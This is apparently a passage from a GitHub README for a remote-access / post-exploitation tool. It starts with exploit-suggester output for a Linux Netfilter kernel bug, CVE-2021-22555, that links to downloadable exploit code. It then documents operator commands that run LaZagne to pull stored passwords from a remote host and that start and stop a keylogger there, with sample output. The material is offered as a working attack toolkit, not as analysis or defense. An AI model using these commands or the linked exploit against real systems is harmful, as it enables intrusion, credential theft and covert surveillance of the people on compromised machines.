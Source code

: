    [+] [CVE-2021-22555] Netfilter heap out-of-bounds write

   Details: https://google.github.io/security-research/pocs/linux/cve-2021-22555/writeup.html
   Exposure: less probable
   Tags: ubuntu=20.04{kernel:5.8.0-*}
   Download URL: https://raw.githubusercontent.com/google/security-research/master/pocs/linux/cve-2021-22555/exploit.c
   ext-url: https://raw.githubusercontent.com/bcoles/kernel-exploits/master/CVE-2021-22555/exploit.c
   Comments: ip_tables kernel module must be loaded

    ```

    **Description**: This command scans the remote host and lists known vulnerabilities that have exploits available.

5. **Retrieve Passwords using LaZagne**:

    ```bash
    >>> R
    ```

    **Example**: Retrieves passwords stored on the remote host.

    ```bash
    >>> R
    [*] Password found: admin123
    ```

    **Description**: The `R` command runs the LaZagne tool on the remote host to recover stored credentials.

6. **Keylogger Commands**:

    - **Start Keylogger**:

      ```bash
      >>> K start
      ```

      **Example**: Starts the keylogger on the remote system.

      ```bash
      >>> K start
      [*] Keylogger started
      ```

    - **Stop Keylogger**:

      ```bash
      >>> K stop
      ```

      **Example**: Stops the keylogger.

      ```bash
      >>> K stop
      [*] Keylogger stopped
      ```


[2]: https://www.instagram.com/EthicalFaizan
[3]: https://www.twitter.com/EthicalFaizan
[4]: https://www.linkedin.com/in/EthicalFaizan
[5]: https://www.github.com/faizan-khanx